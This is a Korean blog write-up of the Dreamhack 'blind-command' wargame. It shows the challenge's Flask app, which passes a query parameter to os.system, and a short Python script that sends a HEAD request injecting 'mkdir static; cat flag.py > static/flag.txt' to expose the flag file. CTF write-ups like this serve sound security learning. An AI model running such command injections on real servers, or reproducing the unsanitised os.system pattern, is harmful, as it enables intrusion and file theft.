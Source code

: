```yaml
---
layout : single
title : "[Dreamhack] STAGE10. Web Hacking Epilogue"
categories: web-hacking
tag: [dreamhack, webhacking, wargame]
sidebar:
    nav: "docs"
---
```


# Web Hacking - Web Hacking Epilogue

-  [x] wargame : blind-command

## Wargame : blind-command

blind command injection은 시스템 명령의 수행 결과 값을 알 수 없을 때 사용하는 방법이다. 아래 코드는 문제 파일의 app.py인데, 메소드가 GET이 아닐 경우 cmd 파라미터로 전달된 값을 시스템 명령어로 실행시킨다. 

```python
from flask import Flask, request
import os

app = Flask(__name__)

@app.route('/' , methods=['GET'])
def index():
    cmd = request.args.get('cmd', '')
    if not cmd:
        return "?cmd=[cmd]"

    if request.method == 'GET':
        ''
    else:
        os.system(cmd)
    return cmd

app.run(host='0.0.0.0', port=8000)
```

### 풀이 1

1) httpie를 통해 해당 서버에 OPTIONS 메소드로 요청을 보냄

아래 결과와 같이, HEAD, GET, OPTIONS 세 가지 메소드를 사용할 수 있다는 것을 확인할 수 있다

<img src = "/images/wargame/20.png"><br>

2) HEAD 메소드로 우회하여 시도

하였으나 장렬히 실패함. 구글링 결과 burp suite를 사용해서 하는 방법만 나오는데 난 아직 burp suite를 깔지 않았으므로 (+귀찮으므로) 다른 방법을 찾았다 <br>

\*사실 내가 httpie를 잘 다룰줄 아는 것은 아니라 httpie를 다루는 데에서 문제가 발생한 것인 지, httpie로는 불가능한 작업인 것인 지 모르겠다. httpie 연습 많이 할 것 ( + 일정 레벨 이상의 워게임 문제들을 원활하게 해결해나가기 위해서는 burp suite가 필수적이라고 느껴지긴 한다)

### 풀이 2

static이라는 폴더와 flag.txt 파일을 생성하고 flag.py의 내용을 읽어 저장하면 어떨까 싶어 현재 주소에서 flag.py를 cat 한 후, static/flag.txt에 저장하도록 코드를 작성하였다.

```python
import requests

host = "http://host3.dreamhack.games:21943/"
params = {'cmd':'mkdir static; cat flag.py > static/flag.txt'}

req = requests.head(host, params=params)
```

위 코드를 실행 후 /static/flag.txt 로 접근한 결과, 아래와 같이 flag를 얻을 수 있었다

<img src = "/images/wargame/21.png">